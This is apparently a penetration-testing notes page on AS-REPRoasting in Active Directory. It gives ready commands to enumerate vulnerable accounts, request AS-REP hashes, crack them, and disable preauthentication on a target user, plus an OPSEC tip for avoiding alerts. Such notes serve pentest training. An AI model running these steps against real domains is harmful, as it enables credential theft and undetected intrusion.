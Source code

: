 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AS-REPRoasting

**AS-REPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Tools <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
Enumerate ASREPRoastable accounts using Impacket or Kerbrute:

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers <domain>/<user> -dc-ip <dc-ip>

# Kerbrute
kerbrute userenum -d <domain> --dc <dc-ip> /opt/jsmith.txt
```
{% endcode %}

Execute the attack using Impacket or NetExec:

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script targeting a list of users
impacket-GetNPUsers <domain>/ -dc-ip <dc-ip> -no-pass -usersfile users.txt

# Impacket's GetNPUsers script targeting a single user
impacket-GetNPUsers <domain>/<targetUser> -dc-ip <dc-ip> -no-pass

# NetExec
nxc ldap <dc-ip> -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

For an example of ASREPRoasting using `nxc` see [Sauna](https://x7331.gitbook.io/boxes/boxes/easy/sauna#asreproasting).
{% endtab %}

{% tab title="Windows" %}
Enumerate ASREPRoastable accounts using [PowerView](../ad-tools/powerview.md) or the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) module:

{% code overflow="wrap" %}
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# AD module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
{% endcode %}

Execute the attack using [Rubeus](../ad-tools/rubeus.md):

{% hint style="warning" %}
**OPSEC**: Try to attack a single user at a time as this is not seen as an anomaly and won't trigger alerts.
{% endhint %}

```powershell
# ASREPRoast all susceptible accounts
.\Rubeus.exe asreproast /nowrap /format:hashcat /outfile:<fileName>

# ASREPRoast a single account
.\Rubeus.exe asreproast /user:<user> /nowrap /format:hashcat /outfile:<fileName>
```
{% endtab %}
{% endtabs %}

The obtained hashes can be cracked using Hashcat or JtR:

```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```

## Targeted AS-REPRoast

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

{% tabs %}
{% tab title="Windows" %}
Force disable Kerberos PreAuth using [PowerView](../ad-tools/powerview.md):

```powershell
Set-DomainObject -Identity <user> -XOR @{useraccountcontrol=4194304} -Verbose
```

Request encrypted AS-REP using [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asreproast /user:<user> /outfile:<fileName> /nowrap /format:hashcat
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

* Some amazing demonstrations of AS-REPRoasting ([video](https://www.youtube.com/watch?v=EVdwnBFtUtQ), [video](https://www.youtube.com/watch?v=wA9w8t1fRWo))
* What `impacket-GetNPUsers` does behind the scenes ([video](https://www.youtube.com/watch?v=pZSyGRjHNO4))
